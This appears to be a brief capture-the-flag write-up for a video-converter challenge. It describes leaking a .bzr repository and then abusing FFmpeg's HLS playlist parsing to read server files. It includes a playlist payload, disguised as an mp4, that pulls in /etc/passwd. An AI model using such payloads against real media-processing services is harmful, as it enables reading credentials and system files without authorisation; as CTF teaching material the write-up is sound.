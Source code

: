 # VIDEO BAZAR
# DESCRIPTION
HI I WAS RECENTLY LEARNING ABOUT THE DIFFERENT TYPES OF VIDEOS THERE COULD BE
AND DECIDED TO MAKE A BASIC LEVEL VIDEO CONVERTER CAN U FIND ANY ERRORRS IN IT
THANKS

# SHORT WRITEUP
THE FIRST PART IS BASIC .bzr file retrival using any tool 
the second part is exploiting ssrf via ffmpeg to read /flag file to a video
and download it before it gets deleted

# mp4->avi
Inside Mp4 file contnet 
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST```


### FLAG IS IN `/flag`

